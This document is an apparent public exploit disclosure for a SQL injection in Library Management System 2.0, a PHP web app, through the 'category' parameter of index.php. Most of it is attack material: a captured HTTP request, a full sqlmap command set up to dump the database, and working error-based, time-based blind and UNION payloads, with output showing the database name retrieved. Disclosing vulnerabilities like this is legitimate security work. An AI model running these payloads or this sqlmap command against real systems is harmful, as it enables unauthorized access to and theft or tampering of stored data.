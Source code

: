 # Library-Management-System_SQL_Injection-3
+ **Exploit Title:** Library-Management-System_SQL_Injection-3
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-
  
## References: 

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'category' in "/libsystem/index.php?category=1".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the application: "http://localhost/libsystem/index.php"
+ Select the Category from combobox.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /libsystem/index.php?category=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=9p3s52249uv1qh0sp602kn39ul
Referer: http://localhost/libsystem/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p category --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: category (GET)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: category=-7874 OR 1 GROUP BY CONCAT(0x717a7a6b71,(SELECT (CASE WHEN (3499=3499) THEN 1 ELSE 0 END)),0x71716a7a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: category=(CASE WHEN (6694=6694) THEN SLEEP(5) ELSE 6694 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 8 columns
    Payload: category=-5673 UNION ALL SELECT 7143,7143,7143,CONCAT(0x717a7a6b71,0x58617168457a765948785a58544179556e546b714668456e76436d48635046707750794a64734b61,0x71716a7a71),7143,7143,7143,7143-- -
---
[12:46:50] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:46:50] [INFO] fetching current database
current database: 'libsystem'
```

+ current database: `libsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/2f9bc202-cb7c-4622-ac38-69252d03bfe5)


